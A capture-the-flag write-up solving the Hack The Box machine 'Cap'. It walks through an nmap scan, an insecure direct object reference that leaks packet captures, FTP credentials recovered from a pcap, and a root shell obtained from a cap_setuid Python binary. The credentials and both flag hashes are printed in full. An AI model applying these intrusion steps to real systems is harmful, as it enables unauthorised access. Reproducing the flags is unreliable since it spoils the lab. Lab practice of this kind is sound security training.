 ## Cap
You can find the machine [here](https://app.hackthebox.com/machines/Cap).
During all this writeup, I'll be using the variable `$TARGET` as the machine IP address, and `$ATTACKER` as the attacker IP address (us).


### Step 1 - Recognition phase

First of all, we will do some recognition using nmap with the flag `-p-` to discover all the opened ports on the VM :
```bash
$ nmap $TARGET -p-
Starting Nmap 7.93 ( <https://nmap.org> ) at 2025-06-01 00:08 CEST
Nmap scan report for 10.10.10.245
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.66 seconds
```

We can see 2 interesting ports :
- 21 : An FTP server.
- 80 : An HTTP server.

### Step 2 - Exploit phase

#### User flag

On the website (on the port 80), we have a dashboard :
![image.png](./assets/screenshot_1.png)

The tab `Security Snapshot ...` redirect to a page `data/:id` :

![image.png](assets/screenshot_2.png)

We can access every data by changing the id from the url. As an example, we can access the data with the id of `0`:
![image.png](assets/screenshot_3.png)

On this page, we can find multiple captured packets. We can download the pcap file and open it with wireshark. With some filters, we can find ftp credentials :
![image.png](assets/screenshot_4.png)

The credentials found are :
```
nathan:Buck3tH4TF0RM3!
```

We can connect to the ftp server and get the first user.txt flag :
```bash
$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55997|)
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001           46 May 31 22:37 exploit.py
-rwxrwxr-x    1 1001     1001       840085 May 31 15:14 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 May 31 14:15 snap
-r--------    1 1001     1001           33 May 31 11:25 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||25985|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*********************************************************|    33       47.18 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.20 KiB/s)
```

```bash
$ cat user.txt 
67fbdb55a4d5e049e0c0590d77797342
```

#### Root flag

Using the same credentials, we can log in with ssh :
```bash
$ ssh nathan@${TARGET}
password: Buck3tH4TF0RM3!
```

When running linpeas.sh on the VM, we can found a 95% PE :
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

On GTFOBins, we find that we can get a shell as root if the cap_setuid flag is set on a Python3 executable file :

![image.png](assets/screenshot_5.png)

With this exploit, we can have a shell as root and found the root flag :
```bash
$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt  snap
# cat root.txt
9b71101549de2e617d031898d44f2126
```
